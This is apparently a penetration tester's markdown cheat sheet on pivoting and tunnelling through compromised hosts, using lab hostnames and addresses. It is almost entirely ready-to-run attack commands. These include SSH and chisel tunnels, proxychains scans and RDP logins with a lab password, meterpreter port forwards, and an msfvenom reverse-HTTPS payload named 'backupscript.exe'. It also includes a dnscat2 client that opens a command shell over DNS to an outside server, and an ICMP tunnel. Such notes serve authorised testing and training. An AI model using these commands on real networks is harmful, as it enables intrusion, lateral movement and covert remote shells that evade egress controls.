

#network #pivoting #tunneling #port-forwarding #proxychains

# Pivoting, Tunneling & Port Forwarding

Related: [nmap](nmap.md) · [metasploit](../Tools/metasploit.md) · [file-transfers](../Tools/file-transfers.md) · [mssql-sccm](../AD/mssql-sccm.md)

## Contents
- [SSH Tunnels](#ssh-tunnels)
- [Proxychains](#proxychains)
- [Metasploit](#metasploit)
- [socat](#socat)
- [chisel](#chisel)
- [sshuttle (routed VPN-like)](#sshuttle-routed-vpn-like)
- [Windows](#windows)
- [DNS Tunnel (dnscat2)](#dns-tunnel-dnscat2)
- [ICMP Tunnel (ptunnel-ng)](#icmp-tunnel-ptunnel-ng)
- [Pivot Chain Overview](#pivot-chain-overview)
- [Tool Comparison](#tool-comparison)

## Pivot Chain Overview

General shape of every technique below: the attacker box only ever talks to the pivot (the host you already control inside/at the edge of the target network); the pivot is what actually reaches the otherwise-unreachable internal target.



## Tool Comparison

| Tool | Tunnel Type | Direction | Notes |
|---|---|---|---|
| SSH (`-L`/`-D`/`-R`) | Local / SOCKS / Reverse | Either | Needs SSH access on the pivot |
| Proxychains | SOCKS wrapper | Outbound via pivot | Routes any TCP-connect tool (e.g. nmap, xfreerdp) through a SOCKS proxy |
| Metasploit `portfwd` | Local / Reverse | Either | Runs inside an active meterpreter session |
| socat | TCP relay | Forward | Simple listener-to-target relay, no auth |
| chisel | SOCKS5 over HTTP | Either (client/server) | Useful when only HTTP egress is allowed |
| sshuttle | Routed VPN-like | Forward | Routes a whole subnet, not just single ports |
| plink / netsh portproxy | Dynamic / static proxy | Either | Windows-native equivalents of SSH `-D` and port forwarding |
| dnscat2 | DNS tunnel | Either | Works when only DNS egress is allowed |
| ptunnel-ng | ICMP tunnel | Either | Works when only ICMP egress is allowed |

## SSH Tunnels
```bash
ssh -L 1234:localhost:3306 ubuntu@<TARGET>
```
Local port forward (attacker:1234 → target's localhost:3306).

```bash
ssh -D 9050 ubuntu@<TARGET>
```
Dynamic port forward (SOCKS proxy on 9050) — pair with proxychains.

```bash
ssh -R <PIVOT_IP>:8080:0.0.0.0:80 ubuntu@<TARGET> -vN
```
Reverse tunnel (target:8080 → attacker:80).

## Proxychains
```bash
proxychains nmap -v -Pn -sT 172.16.5.19
```
Route a TCP-connect scan through the SOCKS proxy.

```bash
proxychains xfreerdp /v:<TARGET> /u:victor /p:pass@123
```
RDP through the proxy.

## Metasploit
```bash
meterpreter > portfwd add -l 3300 -p 3389 -r <TARGET>
```
Forward local 3300 → target 3389.

```bash
meterpreter > portfwd add -R -l 8081 -p 1234 -L <ATTACKER_IP>
```
Reverse forward through the session.

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<PIVOT_IP> LPORT=8080 -f exe -o backupscript.exe
```
Build a reverse-HTTPS payload calling back to the pivot. See [metasploit](../Tools/metasploit.md).

## socat
```bash
socat TCP4-LISTEN:8080,fork TCP4:<TARGET>:8443
```
Relay local 8080 → target:8443.

## chisel
```bash
./chisel server -v -p 1234 --socks5
```
Start a chisel SOCKS5 server.

```bash
./chisel client -v 10.129.202.64:1234 socks
```
Connect a chisel client and expose a SOCKS proxy.

## sshuttle (routed VPN-like)
```bash
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/24 -v
```
Route a whole subnet through SSH.

## Windows
```cmd
plink -D 9050 ubuntu@<TARGET>
```
Dynamic port forward from Windows (PuTTY Plink).

```cmd
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25
```
Native Windows port-proxy rule.

## DNS Tunnel (dnscat2)
```bash
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
Start the dnscat2 server.

```powershell
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret <SECRET> -Exec cmd
```
Connect back from a Windows client.

## ICMP Tunnel (ptunnel-ng)
```bash
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22
```
Tunnel SSH over ICMP (then `ssh -p2222 -lubuntu 127.0.0.1`).
